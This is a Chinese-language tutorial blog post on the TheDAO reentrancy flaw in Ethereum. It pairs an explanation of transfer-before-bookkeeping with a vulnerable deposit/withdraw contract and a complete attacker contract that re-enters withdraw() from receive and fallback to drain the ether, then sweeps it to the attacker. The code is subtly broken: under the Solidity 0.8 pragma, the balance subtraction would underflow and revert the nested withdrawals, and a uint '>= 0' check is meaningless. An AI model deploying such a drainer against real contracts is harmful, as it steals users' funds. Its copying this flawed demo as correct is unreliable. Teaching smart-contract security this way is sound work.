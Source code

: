 ```yaml
---
title: tho dao 合约漏洞
date: 2024-07-30 13:43:23
author: ivhu
categories:
  - 区块链
  - 以太坊
tags:
  - 合约安全
  - solidity
  - the dao
---
```


## 什么是 TheDao 漏洞？

简单来讲，thedao 漏洞允许黑客将 thedao 合约中储存的 eth 全部取走。

那么什么是合约之中的 eth 呢？

solidity 允许合约定义 payable 方法来接受 eth. 当用户调用带有 payable 关键字的合约方法时，如果`msg.value`不为 0,则将`msg.value`转移到合约账下。

由于 thedao 是一个面对所有人的合约，而他的业务逻辑也需要用户将 eth 转移到他的合约里面。

那么正常情况下 thedao 合约中有大量的 eth,来自于不同人的转账，一般而言合约会使用一个 mapping 来记录每个地址有多要 eth 在这里面。

## solidity 特性

如果我们向一个合约转账，这里的转账不是使用合约调用的方式，而是像普通转账一样，calldata 为空。

这时合约会自动调用 receive 方法（如果有的话），这将允许合约在收到转账后进行一些操作。

### 什么是先转账后记账

在合约中我们可以使用 transfer,send 等方法将合约中一定数量的 eth 转移到对应的账户中，当然这里的转账对象也可以是另一个合约。

而记账的意思是，由于我们所有的 eth 都是放合约里面，没有区分那个 eth 是谁的，具体的记录一般在合约中用 mapping 记录，那么在合约中，每次我们进行转账时，都应该修改我们维护的账本（也就是那个 mapping）。先转账后记账的意思就是，先使用 transfor,send,call 等方法转账，而后更新 mapping 中的数据。在合约中表现为转账的操作在修改 mapping 的操作前面。

eg：

```solidity
    (bool sent, ) = msg.sender.call{value: bal}("");  // 先转账
    require(sent, "Failed to withdraw sender's balance");

    // Update user's balance.
    balances[msg.sender] = balances[msg.sender] - bal;  // 后修改mapping中的数据

```

那么回到 solidity 的特性，在转账时，接受者合约可以定义`recevie`方法，在转账发生时进行相关操作。

## 漏洞的利用

- 当我们调用 theDao 中转账函数时，合约会向`msg.sender`转账.

- `msg.sender`是黑客的合约，当 theDao 向黑客的合约转账时，会调用黑客合约中的 recevie 方法.

- 由于 evm 是单线程的，所以后面修改 mapping 的操作还不会进行，而黑客的 recevie 方法则再次调用 thedao 中的转账合约.

- 由于 thedao 合约还没有修改账本，所以 thedao 合约还是认为黑客合约还可以提款，而当进行到提款操作时又会进入到黑客合约的`recevie`方法.

如此循环，直到达到黑客`recevie`中设置的阈值。

**案例合约：**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract Dao {
mapping(address => uint256) public balances;

    function deposit() public payable {
        require(msg.value >= 1 ether, "Deposits must be no less than 1 Ether");
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        // Check user's balance
        require(
            balances[msg.sender] >= 1 ether,
            "Insufficient funds.  Cannot withdraw"
        );
        uint256 bal = balances[msg.sender];

        // Withdraw user's balance
        // payable(msg.sender).transfer(bal);  // transfer只能向eoa发送交易
        (bool sent, ) = msg.sender.call{value: bal}("");  // call  eoa和合约都可以发送
        require(sent, "Failed to withdraw sender's balance");

        // Update user's balance.
        balances[msg.sender] = balances[msg.sender] - bal;
        require(balances[msg.sender]>=0,"balances < 0");
    }

    function daoBalance() public view returns (uint256) {
        return address(this).balance;
    }

}
```

**黑客合约：**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

interface IDao {
    function withdraw() external ;
    function deposit()external  payable;
 }

contract Hacker{
    IDao dao;
    address payable hacker;

    constructor(address _dao){
        dao = IDao(_dao);
        hacker = payable(msg.sender);
    }

    function attack() public payable {
        // Seed the Dao with at least 1 Ether.
        require(msg.value >= 1 ether, "Need at least 1 ether to commence attack.");
        dao.deposit{value: msg.value}();

        // Withdraw from Dao.
        dao.withdraw();
    }

    fallback() external payable{
        if(address(dao).balance >= 1 ether){
            dao.withdraw();
        }
    }
    receive() external payable {
        if(address(dao).balance >= 1 ether){
            dao.withdraw();
        }
    }

    function getBalance()public view returns (uint){
        return address(this).balance;
    }
    function getAllETH()public {
        hacker.transfer(address(this).balance);
    }
}
```

